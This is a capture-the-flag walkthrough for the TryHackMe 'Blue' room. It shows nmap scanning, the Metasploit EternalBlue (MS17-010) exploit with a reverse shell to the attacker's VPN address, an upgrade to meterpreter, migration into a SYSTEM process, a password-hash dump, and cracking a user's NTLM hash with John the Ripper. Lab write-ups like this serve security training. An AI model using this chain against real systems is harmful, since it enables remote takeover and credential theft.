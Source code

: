 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

---

## Intro

| Room Info           | ![](.gitbook/assets/blue.jpg)           |
| :------------------ | --------------------------------------- |
| 🔗 Name              | [Blue](https://tryhackme.com/room/blue) |
| 🎯 Target IP         | `10.10.177.175`                         |
| 📈 Difficulty level  | 🟢Easy                                   |
| 💲 Subscription type | Free                                    |
| 🪟 OS                | Windows                                 |

---

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

---

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

---

## Privilege Escalation

* Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

* My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g.` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

---

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for _**no password**_.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

* 🚩 In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
flag{*******************
```

![](.gitbook/assets/2024-10-20_22-09-30_758.png)

```bash
cd C:/Windows/System32/config
cat flag2.txt
flag{*****************************
```

![](.gitbook/assets/2024-10-20_22-11-22_759.png)

```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
flag{********************************
```

![](.gitbook/assets/2024-10-20_22-12-04_760.png)


***
